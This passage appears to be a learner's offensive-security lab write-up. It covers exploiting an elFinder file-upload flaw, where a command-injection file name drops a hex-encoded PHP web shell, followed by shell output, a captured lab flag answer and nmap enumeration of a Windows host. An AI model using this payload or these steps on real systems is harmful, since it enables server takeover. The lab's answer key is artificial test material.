 - Understand the code
```python
# Line 27
payload = 'SecSignal.jpg;echo 3c3f7068702073797374656d28245f4745545b2263225d293b203f3e0a | xxd -r -p > SecSignal.php;echo SecSignal.jpg'
```
- Used CyberChef to decode `3c3f7068702073797374656d28245f4745545b2263225d293b203f3e0a` w/ *From Hex*
	- code is:  `<?php system($_GET["c"]); ?>`
- Requires the URL to the elFinder base directory as the arg to the script
- Also looks like it requires a .JPEG file titled SecSignal.jpg for it to work
- Copy a sample .jpg file to pwd, test run, & exploit
```bash
cp /var/lib/inetsim/http/fakefiles/sample.jpg ./SecSignal.jpg

python2 46481.py http://192.168.198.46/seclab
[*] Uploading the malicious image...
[*] Running the payload...
[+] Pwned! :)
[+] Getting the shell...
$ pwd
/var/www/http/seclab/php

$ find / -name flag.txt 2>/dev/null
/var/www/http/seclab/php/flag.txt

$ cat /var/www/http/seclab/php/flag.txt
OS{9a4337dd7581e44f7ebd5cb8de321d64}

```

> Answer:  OS{9a4337dd7581e44f7ebd5cb8de321d64}



4. **Capstone Exercise**: Enumerate the Module Exercise VM 3 and find the application that has a memory corruption vulnerability. Then find the related public exploit and fix it as illustrated in this Module.

- Enumerate
```bash
sudo nmap -Pn 192.168.198.213
	PORT      STATE SERVICE
	135/tcp   open  msrpc
	139/tcp   open  netbios-ssn
	445/tcp   open  microsoft-ds
	20000/tcp open  dnp

sudo nmap -sCV 192.168.198.213 -p 135,139,445,20000
	PORT      STATE SERVICE       VERSION
	135/tcp   open  msrpc         Microsoft Windows RPC
	139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
	445/tcp   open  microsoft-ds?
	20000/tcp open  http          Easy Chat Server httpd 1.0
	|_http-title: Easy Chat Server
	|_http-server-header: Easy Chat Server/1.0
	Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
	
	Host script results:
	| smb2-time: 
	|   date: 2024-03-24T23:52:06
	|_  start_date: N/A
	| smb2-security-mode: 
	|   3:1:1: 
	|_    Message signing enabled but not required

# Search for exploit
```
